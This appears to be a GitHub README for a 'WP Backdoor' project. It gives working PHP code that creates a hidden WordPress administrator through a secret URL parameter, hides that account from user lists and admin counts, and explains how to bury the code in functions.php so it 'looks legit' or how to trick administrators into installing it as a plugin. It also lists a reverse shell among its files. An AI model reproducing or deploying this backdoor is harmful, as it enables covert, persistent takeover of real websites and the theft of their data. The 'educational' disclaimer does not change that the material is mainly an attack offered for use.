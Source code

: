 ![logo](/logo-wp-backdoor.png)
![version](https://img.shields.io/badge/version-1.0-blue) ![version](https://img.shields.io/badge/tested-locally-green) ![version](https://img.shields.io/badge/language-PHP-purple)
## Disclaimer
**This is for educational purposes only.** I am not liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from 

 1. your access to this resource and/or inability to access this resource
 2. any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
 3. any content obtained from this resource.

## Files

 - [backdoor.php](/backdoor.php) - code to set the backdoor.
 - [hidden_admin.php](/hidden_admin.php) - code to hide users (the user created by backdoor.php).
 - [wp-backdoor.zip](/wp-backdoor.zip) - the code made WordPress plugin.
 - [wp-backdoor.php](/wp-backdoor/wp-backdoor.php) - code used for the plugin.
 - [reverse_shell.php](/reverse_shell.php) - Pentest Monkey PHP Reverse Shell. Old but gold.

## Proof of Concept
Many times I have asked myself how to maintain access to a compromised **WordPress** site for the sake of surveillance/data gathering/etc... Apart from reverse shells, of course, because I see some issues with the reverse shells stuff. I know they're all rectifiable but there are many things to have into consideration if in a rush:

 1. You have to throw the reverse shell to your IP - revealing info about you.
 2. Proxy then! - I don't trust free proxies... they're down, slow, instable...
 3. A reverse shell is just that: a shell - you can do a lot of stuff but it's not an easy GUI.
 4. Not precisely hidden - unless you hide the malicious code really well, it will be detected very fast.
 5. And after you get the shell you have to escalate privileges.

So I thought... what about **a dormant/hidden admin account** you can activate whenever you want and access (via wp-login) the core of the site inadvert?

Well, here's the first draft of this thought.

The starting point is: **you already have access.** How? That's up to you and beyond the scope of this code. But, in case you want to use it to gain access, you'll need a Trojan Horse and good social engineering skills.

To explain the **WP Backdoor** I will divide the code in three parts: 

 1. Creating the admin user.
 2. Hiding the admin user.
 3. Installing the backdoor.

## Creating the new_admin

WordPress allows us to do everything by code. That means we can actually create users with a few lines of code. But to go further, let's trigger that user creation by visiting a specific URL:

    add_action( 'wp_head', 'wp_backdoor' );
    
    function  wp_backdoor() {
	    if ( $_GET['backdoor'] == 'go' ) {
		    require( 'wp-includes/registration.php' );
		    if ( !username_exists( 'new_admin' ) ) {
			    $user_id = wp_create_user( 'new_admin', 'new_pass' );
			    $user = new  WP_User( $user_id );
			    $user->set_role( 'administrator' );
		    }
	    }
    }

By visiting the URL: *https://[insert website here]*/**?backdoor=go**, automatically a new user called **new_admin** will be created. This new user will have the role of administrator and its privileges and the password would be **new_pass.**

Now we have the user but it's in plain sight and would be easily noticed by others. So it's time to hide it!

## Hiding the new_admin

This code has two parts: hiding the **new_admin** and making everything look right.

Code for hiding a user:

    add_action('pre_user_query','dt_pre_user_query');
    
    function  dt_pre_user_query($user_search) {
	    global  $current_user;
	    $username = $current_user->user_login;

	    if ($username != 'new_admin') {
		    global  $wpdb;
		    $user_search->query_where = str_replace('WHERE 1=1',
			    "WHERE 1=1 AND {$wpdb->users}.user_login != 'new_admin'",$user_search->query_where);
        }
    }

But without the next piece of code there would be some hints that something is happening. In example: there's only one admin but the total count of admins is 2. Funky...

So let's correct those flaws...

    add_filter("views_users", "dt_list_table_views");
    
    function  dt_list_table_views($views){
	    $users = count_users();
	    $admins_num = $users['avail_roles']['administrator'] - 1;
	    $all_num = $users['total_users'] - 1;
	    $class_adm = ( strpos($views['administrator'], 'current') === false ) ? "" : "current";
	    $class_all = ( strpos($views['all'], 'current') === false ) ? "" : "current";
	    $views['administrator'] = '<a href="users.php?role=administrator" class="'  .  $class_adm  .  '">'  .  translate_user_role('Administrator') .  ' <span class="count">('  .  $admins_num  .  ')</span></a>';
	    $views['all'] = '<a href="users.php" class="'  .  $class_all  .  '">'  .  __('All') .  ' <span class="count">('  .  $all_num  .  ')</span></a>';
	    return  $views;
    }

And there we go! Now our backdoor would be unnoticed unless someone carries out a thorough scan of the site. But... How can we stuff this code into a WordPress site?

Well, here are some ways. Sure there are more. Let your imagination be the limit!

## Setting up the backdoor
Depending on your intentions this would be your first or your last step. If you are using this method for persistence then it would be your last step and you should have access already.

In case you want to gain access, you should start here.

### Persistence

If you already have access, just copy the three code blocks together into **functions.php.** Not on top, not at the bottom, right in the middle. I have tried to do it around line 150. With a quick look to the code it looks legit.

Once it's pasted and saved, backdoor is ready to be used. 

You can use a Reverse Shell to do this task 😉

### Gain access

We can hide this malicious code into a WordPress plugin. This method can be used for persistance as well but have some inconvenients. The main one is that, once the plugin is deactivated, so does the hiding code and your backdoor would be visible.

We can make our own plugin to disguise the code or download a legit plugin, stuff it inside and - for both cases with a bit of social engineering, make the admin install the plugin.

I am giving you a simple plugin containing just the malicious code. It is not disguised, just a sample. If you feel like, you can also learn how to make legit plugins with the WordPress documentation. 

## Final thoughts
I know this could be better. And it will. My future improvements would probably go around using a plugin to write into functions.php so once it is activated, code is stuffed in functions.php and the plugin is not needed anymore.

Be careful who you let in your site. Update everything, revise the core code and delete  unuseful stuff you don't need.

That's it. If you want to add more info, code or anything I'll be pleased. Happy hacking!

